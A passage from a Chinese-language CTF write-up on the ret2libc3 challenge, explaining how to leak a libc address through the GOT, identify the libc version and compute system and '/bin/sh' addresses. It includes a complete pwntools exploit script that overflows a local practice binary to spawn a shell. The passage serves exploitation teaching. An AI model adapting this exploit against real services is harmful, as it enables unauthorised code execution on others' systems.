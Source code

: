 所以system地址会pop入EIP运行。

经过gdb，在ebx返回时，esp指向的是system。ret则是将system pop入EIP。证明这个是可行的

![image-20200915220654816](image-20200915220654816.png)

## ret2libc3

ret2libc2 的基础上，再次将 system 函数的地址去掉。我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。程序保护如下:

![image-20200915231136645](image-20200915231136645.png)

nx打开导致我们无法直接写入shell执行。

在这里有个知识点吧：

system函数属于libc，而libc.so动态链接库中的函数之间的相对偏移是固定的，也就是说要找基地址，则有公式：**A真实地址-A的偏移地址 = B真实地址-B的偏移地址 = 基地址**。

由于libc的延迟绑定机制，我们需要泄漏已经执行过的函数的地址，已经执行过的话就会在got表生存下来，有了真实的地址的信息。

![image-20200915232459322](image-20200915232459322.png)

发现程序之前调用了puts与printf函数，因此我们可以：

puts真实地址-puts的偏移地址  = 基地址= system真实地址-system的偏移地址

但是再仔细找文件，发现没给libc文件信息。

这里又用到一个知识点：

即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，**最低的 12 位并不会发生改变**。如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
import pwnlib

context.terminal = ['tmux', 'splitw', '-h']
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']#我们需要用put输出在服务器端的实际地址
puts_got = ret2libc3.got['puts']#得到puts的got的地址，这个地址里的数据即函数的真实地址，即我们要泄露的对象
main = ret2libc3.symbols['main']#返回地址被覆盖为main函数的地址，再次执行main，以求再次溢出

print "leak puts_got addr and return to main again"
payload = 'a' * 112+ p32(puts_plt)+p32(main)+p32( puts_got)
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
puts_addr = u32(sh.recv()[0:4])#交互时接受返回的在libc中的真实地址，由于是32位的文件，recv(4)是指只接收四个字节的信息，因为泄露的地址信息只存在于前四个字节，u32是指解包unpack，将一块数据解包成四个字节
libc = LibcSearcher('puts', puts_addr)
libcbase = puts_addr - libc.dump('puts')#通过偏移计算出基地址
#gdb.attach(sh,"b *puts")
system_addr = libcbase + libc.dump('system')#通过基地址，算出system在libc中的真实地址
binsh_addr = libcbase + libc.dump('str_bin_sh')#通过基地址，算出/bin/sh在libc中的真实地址

print "get shell"

payload='a'*104+p32(system_addr)+p32(0)+p32(binsh_addr)
sh.sendline(payload)

sh.interactive()
```
